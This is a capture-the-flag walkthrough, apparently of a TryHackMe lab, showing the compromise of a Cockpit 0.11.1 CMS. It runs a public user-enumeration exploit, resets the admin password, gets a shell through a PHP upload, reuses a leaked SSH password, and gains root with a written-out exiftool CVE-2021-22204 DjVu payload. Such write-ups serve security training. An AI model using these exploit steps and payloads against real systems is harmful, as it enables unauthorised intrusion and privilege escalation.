

### Enumeration 
- services and port scanning
  ```bash
  nmap -sV -Pn -p- -sS -T5 10.10.21.109 -oN enum-srv.txt
  ```

  ```
  Nmap 7.95 scan initiated Thu May  8 14:28:20 2025 as: /usr/lib/nmap/nmap --privileged -sV -Pn -p- -sS -T5 -oN enum-srv.txt 10.10.21.109
  Warning: 10.10.21.109 giving up on port because retransmission cap hit (2).
  Nmap scan report for cmspit.thm (10.10.21.109)
  Host is up (0.16s latency).
  Not shown: 65532 closed tcp ports (reset)
  PORT      STATE    SERVICE VERSION
  22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
  29779/tcp filtered unknown
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

- Q1: What is the name of the Content Management System (CMS) installed on the server?  
  - **cockpit**  
  

- Q2: What is the version of the Content Management System (CMS) installed on the server?  
  - **0.11.1**  
  

- We have CMS name and version, let's search for vulnerabilities  
  

- Results:  
  

- Downloaded exploit and ran:  
  ```bash
  python3 50185.py -u http://cmspit.thm
  ```

- Valid usernames returned:  
  

- Q3: How many users can you identify when you reproduce the user enumeration attack?  
  - **4**

- Get more info about users:  
  

- Reset password for `admin` account:  
  

- Q4: What is the path that allows you to change user account passwords?  
  - **auth/resetpassword**  
  

- Logged in successfully:  
  

- After login, discovered file upload functionality at:  
  **http://cmspit.thm/assetsmanager/upload**  
  

- Upload with PHP extension worked:  
    
  

- Accessed the file and got a shell:  
  

- Upgraded shell using Python:  
  ```bash
  python3 -c "__import__('pty').spawn('/bin/bash')"
  ```

- Found a document with DB credentials/flag:  
    
  ```bash
  cat /home/stux/.dbshell
  ```  
  

- Gained access via SSH:  
  - **stux : p4ssw0rdhack3d!123**  
  ```bash
  ssh stux@10.10.21.109
  ```  
  

- Got the user flag:  
  

---

### Privilege Escalation to Root

- Checked for sudo permissions:  
  ```bash
  sudo -l
  ```  
  

- Found `exiftool` can be run as sudo. Vulnerability: **CVE-2021-22204**  
  - Reference: [https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/)

- Steps to escalate privileges:

  - Create malicious payload:
    ```bash
    echo '(metadata "\c${system('/bin/bash -p')};")' > payload
    ```

  - Compress it:
    ```bash
    bzz < payload > payload.bzz
    ```

  - Convert to `.djvu` format using `djvumake`:
    ```bash
    djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
    ```

  - Transfer the file to victim machine  
    

  - Execute:
    ```bash
    sudo exiftool exploit.djvu
    ```  
    
